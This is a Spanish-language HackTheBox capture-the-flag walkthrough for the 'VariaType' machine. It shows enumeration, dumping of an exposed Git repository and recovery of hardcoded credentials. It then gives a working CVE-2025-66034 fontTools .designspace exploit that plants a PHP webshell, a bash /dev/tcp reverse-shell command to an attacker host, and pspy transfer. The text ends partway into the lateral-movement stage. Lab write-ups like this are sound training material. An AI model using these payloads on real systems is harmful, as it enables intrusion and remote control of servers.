










# VariaType HackTheBox (Intermediate)

# Contexto de la maquina

## Trayectoria VariaType

<figure><figcaption></figcaption></figure>

## Descripción

**Variatype** es una máquina Linux orientada a la explotación de vulnerabilidades en aplicaciones web modernas que integran pipelines automatizados para el procesamiento de archivos. El escenario gira en torno a una empresa ficticia dedicada a la generación de **fuentes tipográficas variables**, donde los usuarios pueden subir archivos para generar nuevas fuentes mediante herramientas especializadas.

Durante la explotación se identifican múltiples debilidades de seguridad, incluyendo:

- Exposición de un **repositorio Git**
- **Credenciales hardcodeadas** en el historial de commits
- Vulnerabilidades en librerías de procesamiento de fuentes
- Procesamiento inseguro de archivos comprimidos
- Escalada de privilegios mediante **sudo mal configurado**

Estas debilidades permiten obtener inicialmente **ejecución remota de comandos**, posteriormente comprometer a un usuario del sistema y finalmente escalar privilegios hasta **root**.

**Objetivo del reto**

El objetivo consiste en comprometer completamente el sistema:

1. Obtener acceso inicial mediante la explotación del servicio web.
2. Conseguir ejecución de comandos en el servidor.
3. Escalar privilegios hasta un usuario del sistema.
4. Aprovechar configuraciones inseguras para obtener acceso **root**.
5. Recuperar las flags del sistema.

**Tipo de máquina**

- Linux
- Web Application
- Procesamiento automatizado de archivos
- Pipeline de fuentes tipográficas

**Habilidades y técnicas evaluadas**

- Enumeración de servicios con **Nmap**
- Enumeración web y virtual hosts
- Descubrimiento de **subdominios**
- Enumeración de directorios
- Recuperación de repositorios **Git expuestos**
- Análisis de historial de commits
- Explotación de vulnerabilidades en librerías
- **Arbitrary File Write**
- Webshell y **Remote Command Execution**
- Obtención de **reverse shell**
- Monitorización de procesos con **pspy**
- Explotación de **inyección de comandos**
- Escalada de privilegios mediante **sudo misconfiguration**
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

# Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un escaneo más detallado sobre ellos para obtener versiones y scripts por defecto.

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-16 04:15 -0400
Nmap scan report for 10.129.12.161
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 e0:b2:eb:88:e3:6a:dd:4c:db:c1:38:65:46:b5:3a:1e (ECDSA)
|_  256 ee:d2:bb:81:4d:a2:8f:df:1c:50:bc:e1:0e:0a:d1:22 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://variatype.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds
```

Observamos que existen **dos puertos abiertos**:

- **22 → SSH**
- **80 → HTTP**

El puerto **80** redirige automáticamente a un dominio:

```
http://variatype.htb
```

Por lo tanto, debemos añadir este dominio a nuestro archivo `/etc/hosts` para poder resolverlo correctamente.

```shell
nano /etc/hosts

#Dentro del nano
<IP>          variatype.htb
```
## Análisis de la web

Accedemos ahora al dominio:

```
URL = http://variatype.htb/
```

Respuesta:

<figure><figcaption></figcaption></figure>

La página parece ser el **sitio web corporativo de Variatype**, una empresa relacionada con la creación de **fuentes tipográficas variables**.

En la página principal observamos un botón llamado:

```
Generate Your Variable Font
```

Al pulsarlo nos redirige a una sección donde es posible **subir archivos** para generar fuentes.

<figure><figcaption></figcaption></figure>

Esto resulta interesante ya que cualquier funcionalidad de **subida de archivos** puede convertirse en un vector potencial de ataque si no se valida correctamente.

Si revisamos la sección **Services**, encontramos más información sobre las tecnologías utilizadas.

<figure><figcaption></figcaption></figure>

En esta sección se menciona que el servicio utiliza herramientas relacionadas con **procesamiento y validación de fuentes**, aunque no se especifican versiones concretas.  
Aunque podríamos buscar vulnerabilidades relacionadas con estas tecnologías, primero continuaremos con la **enumeración de la aplicación web**.
# Enumeración de subdominios con FFUF

Para descubrir posibles **subdominios**, utilizamos `ffuf` realizando fuzzing en el encabezado `Host`.

```shell
ffuf -c -w <WORDLIST> -u http://variatype.htb -H "Host: FUZZ.variatype.htb" -fw 5
```

Respuesta:

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://variatype.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.variatype.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 5
________________________________________________

portal                  [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 38ms]
Portal                  [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 35ms]
PORTAL                  [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 37ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Descubrimos un subdominio:

```
portal.variatype.htb
```

Lo añadimos al archivo `/etc/hosts`.

```shell
nano /etc/hosts

#Dentro del nano
<IP>          variatype.htb portal.variatype.htb
```
## Acceso al portal

Accedemos al nuevo subdominio:

```
URL = http://portal.variatype.htb/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Encontramos un **panel de login**, pero actualmente no disponemos de credenciales válidas.

Por tanto, procederemos a **enumerar el contenido del portal** para buscar posibles rutas interesantes.
# Enumeración de directorios con Gobuster

Utilizamos `gobuster` para descubrir archivos y directorios ocultos.

```shell
gobuster dir --url http://portal.variatype.htb/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Respuesta:

```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://portal.variatype.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,html,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 2494]
download.php         (Status: 200) [Size: 2494]
files                (Status: 403) [Size: 153]
view.php             (Status: 200) [Size: 2494]
auth.php             (Status: 200) [Size: 0]
dashboard.php        (Status: 200) [Size: 2494]
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

Aunque aparecen algunos archivos interesantes, ninguno parece proporcionar acceso directo o revelar información crítica.
## Descubrimiento de repositorio Git expuesto

<figure><figcaption></figcaption></figure>

Después de continuar con la enumeración, probamos una estructura común en aplicaciones web mal configuradas: la exposición del directorio `.git`.

```shell
curl http://portal.variatype.htb/.git/HEAD
```

Respuesta:

```
ref: refs/heads/master
```

Esto confirma que el **repositorio Git está expuesto públicamente**, lo cual puede permitir recuperar **todo el código fuente de la aplicación**, incluyendo versiones anteriores y posibles credenciales eliminadas.
# Dumpeo del repositorio Git

<figure><figcaption></figcaption></figure>

Utilizamos la herramienta `git-dumper` para descargar el repositorio completo.

```shell
python3 -m venv .venv; source .venv/bin/activate
pip install git-dumper
git-dumper http://portal.variatype.htb/.git repo
```

Respuesta:

```
[-] Testing http://portal.variatype.htb/.git/HEAD [200]
[-] Testing http://portal.variatype.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://portal.variatype.htb/.gitignore [404]
[-] http://portal.variatype.htb/.gitignore responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://portal.variatype.htb/.git/description [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/post-receive.sample [404]
[-] http://portal.variatype.htb/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/hooks/post-commit.sample [404]
[-] http://portal.variatype.htb/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/pre-commit.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/pre-receive.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://portal.variatype.htb/.git/index [200]
................................<RESTO_DE_INFO>....................................
```

Una vez finalizado el proceso, veremos que el repositorio se ha descargado en el directorio `repo`.

Listamos su contenido:

```
drwxrwxr-x kali kali 4.0 KB Mon Mar 16 05:06:53 2026  .
drwxrwxr-x kali kali 4.0 KB Mon Mar 16 05:06:52 2026  ..
drwxrwxr-x kali kali 4.0 KB Mon Mar 16 05:07:00 2026  .git
.rw-rw-r-- kali kali  36 B  Mon Mar 16 05:06:53 2026  auth.php
```
## Búsqueda de credenciales en el repositorio

Una vez tenemos el repositorio, podemos buscar **posibles credenciales o información sensible** dentro del código utilizando `grep`.

```shell
grep -RiE "password|passwd|pwd|secret|token|key|api|auth|credential" .
```

Respuesta:

```
./hooks/commit-msg.sample:# SOB=$(git var GIT_AUTHOR_IDENT | sed -n 's/^\(.*>\).*$/Signed-off-by: \1/p')
grep: ./index: binary file matches
./logs/HEAD:753b5f5957f2020480a19bf29a0ebc80267a4a3d 6f021da6be7086f2595befaa025a83d1de99478b Dev Team <dev@variatype.htb> 1764968388 -0500	commit: security: remove hardcoded credentials
./logs/refs/heads/master:753b5f5957f2020480a19bf29a0ebc80267a4a3d 6f021da6be7086f2595befaa025a83d1de99478b Dev Team <dev@variatype.htb> 1764968388 -0500	commit: security: remove hardcoded credentials
./COMMIT_EDITMSG:security: remove hardcoded credentials
```

Esto indica que en algún momento existieron **credenciales hardcodeadas en el código**, pero aparentemente fueron eliminadas en un commit posterior.

Por lo tanto, revisaremos el historial de commits.
# Análisis del historial Git

```shell
git log --oneline
```

Respuesta:

```
753b5f5 (HEAD -> master) fix: add gitbot user for automated validation pipeline 5030e79 feat: initial portal implementation
```

El commit más interesante es:

```
753b5f5
```

Lo inspeccionamos con:

```shell
git show 753b5f5
```

Respuesta:

```
commit 753b5f5957f2020480a19bf29a0ebc80267a4a3d (HEAD -> master)
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:59:33 2025 -0500

    fix: add gitbot user for automated validation pipeline

diff --git a/auth.php b/auth.php
index 615e621..b328305 100644
--- a/auth.php
+++ b/auth.php
@@ -1,3 +1,5 @@
 <?php
 session_start();
-$USERS = [];
+$USERS = [
+    'gitbot' => 'G1tB0t_Acc3ss_2025!'
+];
```

Aquí encontramos **credenciales hardcodeadas** dentro del archivo `auth.php`.
## Acceso al portal

Probamos las credenciales encontradas en el portal.

```
User: gitbot
Pass: G1tB0t_Acc3ss_2025!
```

Respuesta:

<figure><figcaption></figcaption></figure>

Veremos que hemos accedido correctamente con dichas credenciales. En esta parte podremos ver un **dashboard** donde se listan las fuentes que se van generando a partir del servicio de creación de **variable fonts**.

Este panel muestra las fuentes generadas recientemente y permite visualizarlas o descargarlas.

Tras investigar durante un rato, recordemos que en la anterior web, en la sección **Services**, nos mostraban varias tecnologías utilizadas por la aplicación. Entre ellas aparecía una librería de **Python** utilizada para la generación de fuentes.

Investigando sobre esta librería encontramos una vulnerabilidad reciente en **fontTools**.

La vulnerabilidad consiste en un **Arbitrary File Write combinado con XML Injection** al procesar archivos `.designspace`, lo que puede permitir a un atacante escribir archivos arbitrarios en el sistema si el servidor utiliza una versión vulnerable de la librería.

En concreto encontramos el siguiente CVE:
# CVE-2025-66034

<figure><figcaption></figcaption></figure>

Esta vulnerabilidad afecta a versiones de **fontTools anteriores a la versión 4.60.2**.

Más información sobre la vulnerabilidad puede encontrarse en el siguiente enlace:

URL = [Info GitHub CVE-2025-66034](https://github.com/advisories/GHSA-768j-98cg-p3fv)

La vulnerabilidad se produce porque el atributo:

```
filename
```

dentro de la etiqueta:

```
<variable-font>
```

se utiliza directamente como ruta de salida del archivo generado por el pipeline de generación de fuentes.

Si esta ruta no es validada correctamente, un atacante puede **especificar rutas arbitrarias**, lo que permite escribir archivos en cualquier ubicación del sistema donde el proceso tenga permisos.

Esto abre la puerta a escribir archivos maliciosos, como por ejemplo **webshells PHP**, dentro del directorio accesible por el servidor web.
## Generación de fuentes de prueba

En el repositorio del advisory también se incluye un **PoC** que demuestra cómo explotar la vulnerabilidad. Siguiendo esa información vamos a crear unos pequeños **scripts en Python** que nos permitirán generar las fuentes necesarias para poder interactuar con el servicio.

Para ello crearemos primero un script que genere dos fuentes base (`.ttf`) que serán utilizadas por el archivo `.designspace`.

> setup.py

```python
#!/usr/bin/env python3
import os

from fontTools.fontBuilder import FontBuilder
from fontTools.pens.ttGlyphPen import TTGlyphPen

def create_source_font(filename, weight=400):
    fb = FontBuilder(unitsPerEm=1000, isTTF=True)
    fb.setupGlyphOrder([".notdef"])
    fb.setupCharacterMap({})
    
    pen = TTGlyphPen(None)
    pen.moveTo((0, 0))
    pen.lineTo((500, 0))
    pen.lineTo((500, 500))
    pen.lineTo((0, 500))
    pen.closePath()
    
    fb.setupGlyf({".notdef": pen.glyph()})
    fb.setupHorizontalMetrics({".notdef": (500, 0)})
    fb.setupHorizontalHeader(ascent=800, descent=-200)
    fb.setupOS2(usWeightClass=weight)
    fb.setupPost()
    fb.setupNameTable({"familyName": "Test", "styleName": f"Weight{weight}"})
    fb.save(filename)

if __name__ == '__main__':
    os.chdir(os.path.dirname(os.path.abspath(__file__)))
    create_source_font("source-light.ttf", weight=100)
    create_source_font("source-regular.ttf", weight=400)
```

Ejecutamos el script:

```shell
python3 setup.py
```

Esto generará dos archivos necesarios para la generación de la variable font:

```
source-light.ttf
source-regular.ttf
```
## Creación de un `.designspace` legítimo

Antes de intentar explotar la vulnerabilidad, crearemos un archivo `.designspace` legítimo para comprobar cómo se comporta el servidor al procesar un archivo válido.

> test.designspace

```python
<?xml version="1.0" encoding="UTF-8"?>
<designspace format="5.0">
  <axes>
    <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400"/>
  </axes>

  <sources>
    <source filename="source-light.ttf" name="Light">
      <location>
        <dimension name="Weight" xvalue="100"/>
      </location>
    </source>

    <source filename="source-regular.ttf" name="Regular">
      <location>
        <dimension name="Weight" xvalue="400"/>
      </location>
    </source>
  </sources>
</designspace>
```

Subimos los tres archivos al formulario:

- `test.designspace`
- `source-light.ttf`
- `source-regular.ttf`

<figure><figcaption></figcaption></figure>

Al pulsar **Generate Variable Font** veremos que el proceso se completa correctamente.

<figure><figcaption></figcaption></figure>

Si volvemos al **dashboard**, podremos ver que se ha generado una nueva fuente.

<figure><figcaption></figcaption></figure>

Si pulsamos en **View**, se nos mostrará la información correspondiente al archivo generado.

<figure><figcaption></figcaption></figure>

Esto confirma que el servicio **procesa correctamente los archivos `.designspace` y genera nuevas fuentes en el servidor**.
## Objetivo de la explotación

Nuestro objetivo ahora será aprovechar la vulnerabilidad para **escribir un archivo PHP dentro del servidor**, de forma que podamos ejecutar comandos de sistema.

Durante la fase de enumeración inicial habíamos encontrado un directorio llamado:

```
/files/
```

mediante **fuzzing con Gobuster**.

Esto sugiere que los archivos generados probablemente se almacenan en ese directorio o en una ruta relacionada.
# Escalate user www-data
## Creación del exploit `.designspace`

Ahora vamos a crear un archivo `.designspace` malicioso que intentará escribir un archivo llamado:

```
shell.php
```

dentro del servidor.

Este archivo contendrá una **webshell simple en PHP** que nos permitirá ejecutar comandos mediante el parámetro `cmd`.

> exploit.designspace

```python
<designspace format="5.0">
    <axes>
        <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
            <labelname xml:lang="en">
                <![CDATA[<?php system($_GET["cmd"]); ?>]]>
            </labelname>
        </axis>
    </axes>

    <sources>
        <source filename="source-light.ttf" name="Light">
            <location>
                <dimension name="Weight" xvalue="100"/>
            </location>
        </source>

        <source filename="source-regular.ttf" name="Regular">
            <location>
                <dimension name="Weight" xvalue="400"/>
            </location>
        </source>
    </sources>

    <variable-fonts>
        <variable-font 
            name="MiFuente" 
            filename="/var/www/portal.variatype.htb/files/shell.php">

            <axis-subsets>
                <axis-subset name="Weight"/>
            </axis-subsets>

        </variable-font>
    </variable-fonts>
</designspace>
```

Subimos nuevamente los archivos al formulario.

<figure><figcaption></figcaption></figure>

Sin embargo, al intentar generar la fuente obtenemos un error.

Esto indica que probablemente la ruta especificada **no corresponde con la ubicación real del directorio dentro del servidor**.
## Deducción de la estructura del servidor

Después de probar varias rutas posibles y analizar la estructura típica de aplicaciones web modernas, podemos deducir que el servidor podría utilizar una estructura similar a la siguiente:

```
portal.variatype.htb/
 ├── app/
 ├── config/
 ├── vendor/
 └── public/
      ├── dashboard.php
      ├── css
      └── files
	      ├── variabype_z1DA-HvtHMo.ttf
	      └── variabype_HegsfIWKULA.ttf
	      .......
```

En muchas aplicaciones web, el **DocumentRoot del servidor web apunta al directorio `public/`**, por lo que los archivos accesibles desde la web se encuentran dentro de esa carpeta.

Por lo tanto, el directorio `/files/` accesible desde la web probablemente corresponda a:

```
/var/www/portal.variatype.htb/public/files/
```
## Exploit final

Modificamos el archivo `.designspace` para que escriba el archivo en esa ubicación:

> exploit.designspace

```python
<designspace format="5.0">
    <axes>
        <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
            <labelname xml:lang="en">
                <![CDATA[<?php system($_GET["cmd"]); ?>]]>
            </labelname>
        </axis>
    </axes>

    <sources>
        <source filename="source-light.ttf" name="Light">
            <location>
                <dimension name="Weight" xvalue="100"/>
            </location>
        </source>

        <source filename="source-regular.ttf" name="Regular">
            <location>
                <dimension name="Weight" xvalue="400"/>
            </location>
        </source>
    </sources>

    <variable-fonts>
        <variable-font 
            name="MiFuente" 
            filename="/var/www/portal.variatype.htb/public/files/shell.php">

            <axis-subsets>
                <axis-subset name="Weight"/>
            </axis-subsets>

        </variable-font>
    </variable-fonts>
</designspace>
```

Subimos nuevamente los archivos.

<figure><figcaption></figcaption></figure>

Esta vez el proceso se completa correctamente.

<figure><figcaption></figcaption></figure>

Si volvemos al **dashboard**, veremos que el archivo `shell.php` aparece en la lista de archivos generados.

<figure><figcaption></figcaption></figure>

## Obtención de ejecución remota de comandos

Ahora podemos acceder directamente a la webshell mediante la siguiente URL:

```
URL = http://portal.variatype.htb/files/shell.php?cmd=id
```

Respuesta:

<figure><figcaption></figcaption></figure>

Como podemos observar, el comando se ejecuta correctamente en el servidor.

Esto confirma que hemos conseguido **Remote Command Execution**.
## Reverse shell

Ahora que tenemos ejecución de comandos, podemos establecer una **reverse shell** hacia nuestra máquina atacante.

```
URL = http://portal.variatype.htb/files/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<IP_ATTACKER>/<PORT>+0>%261'
```

Antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos la ``URL`` anterior y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.238] from (UNKNOWN) [10.129.12.161] 45632
bash: cannot set terminal process group (3445): Inappropriate ioctl for device
bash: no job control in this shell
www-data@variatype:~/portal.variatype.htb/public/files$ whoami
whoami
www-data
```

Veremos que hemos obtenido una conexion de forma exitosa, por lo que vamos a sanitizar la ``shell``.
## Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
# Escalate user steve

<figure><figcaption></figcaption></figure>

Una vez tenemos acceso al sistema, el siguiente paso es intentar **movernos lateralmente a otro usuario del sistema**, ya que actualmente no tenemos privilegios elevados.

Primero vamos a identificar qué usuarios tienen **una shell válida** configurada en el sistema.

```shell
cat /etc/passwd | grep "/bin/bash"
```

Respuesta:

```
root:x:0:0:root:/root:/bin/bash
steve:x:1000:1000:steve,,,:/home/steve:/bin/bash
```

Observamos que existen dos usuarios con acceso a shell:

- `root`
- `steve`

El usuario `steve` parece ser un **usuario normal del sistema**, por lo que podría ser un buen objetivo para intentar escalar privilegios o movernos lateralmente.
## Monitorización de procesos con pspy

Una técnica muy útil cuando tenemos acceso a una máquina es **monitorizar procesos en ejecución**, especialmente aquellos que se ejecutan como otros usuarios o como `root`.

Para ello utilizaremos la herramienta **pspy**, que permite observar procesos en ejecución **sin necesidad de privilegios root**.

Primero descargamos la herramienta en nuestra máquina atacante.

> Maquina atacante

```shell
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
python3 -m http.server 80
```

Con esto levantamos un **servidor HTTP temporal** para transferir el binario a la máquina víctima.

Ahora descargamos la herramienta desde la máquina víctima.

> Maquina victima

```shell
cd /tmp
wget http://<IP_ATTACKER>/pspy64
chmod +x pspy64
```

Una vez descargada, la ejecutamos para comenzar a **monitorizar procesos en tiempo real**.

```shell
./pspy64
```

Respuesta:

```
..........................<RESTO DE INFO>..........................................
2026/03/16 06:41:28 CMD: UID=0     PID=2      | 
2026/03/16 06:41:28 CMD: UID=0     PID=1      | /sbin/init 
2026/03/16 06:42:01 CMD: UID=0     PID=99231  | /usr/sbin/CRON -f 
2026/03/16 06:42:01 CMD: UID=0     PID=99232  | /usr/sbin/CRON -f 
2026/03/16 06:42:01 CMD: UID=1000  PID=99233  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99234  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99235  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99236  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99237  | timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c 
import fontforge
import sys
try:
    font = fontforge.open('variabype_FhbnfOjo9A8.ttf')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process variabype_FhbnfOjo9A8.ttf: {e}', file=sys.stderr)
    sys.exit(1)
 
2026/03/16 06:42:01 CMD: UID=1000  PID=99238  | 
